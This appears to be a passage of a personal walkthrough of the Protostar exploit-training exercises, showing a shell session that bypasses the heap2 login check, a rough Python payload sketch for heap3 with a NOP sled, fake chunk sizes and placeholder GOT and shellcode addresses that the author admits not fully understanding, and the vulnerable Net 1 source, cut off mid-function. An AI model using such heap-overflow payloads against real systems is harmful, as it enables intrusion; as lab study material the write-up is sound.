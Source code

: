 ```sh
/opt/protostar/bin$ ./heap2
[ auth = (nil), service = (nil) ]
auth aaaa
[ auth = 0x804c008, service = (nil) ]
login
please enter your password
[ auth = 0x804c008, service = (nil) ]
serviceAAAAAAAAAAAAAAAA       
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!
[ auth = 0x804c008, service = 0x804c018 ]
```

## Heap 3

[full explaination](https://airman604.medium.com/protostar-heap-3-walkthrough-56d9334bcd13)

![negative size](https://miro.medium.com/max/551/1*K7xYXTGesD2qTTuhHeS_fQ.jpeg)

i followed as much as i understood

```py
print "AAAA" + " " +
      14*"\x90" +"shellcode" +(30-len(shellcode)-14)*"\x90" + " " +
      struct.pack('I',0xfffffffc)*2 + "\x90\x90\x90\x90" + "puts@GOT_addr" + "shellcode_addr"
```

stillllllllllllllllllllllllll didn't get it well :(

## Net 1

```c
void run()
{
  unsigned int i;
  unsigned int wanted;

  wanted = random();

  printf("Please send '%d' as a little endian 32bit int\n", wanted);

  if(fread(&i, sizeof(i), 1, stdin) == NULL) {
      errx(1, ":(\n");
  }

  if(i == wanted) {
      printf("Thank you sir/madam\n");
  } else {
      printf("I'm sorry, you sent %d instead\n", i);
  }
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

```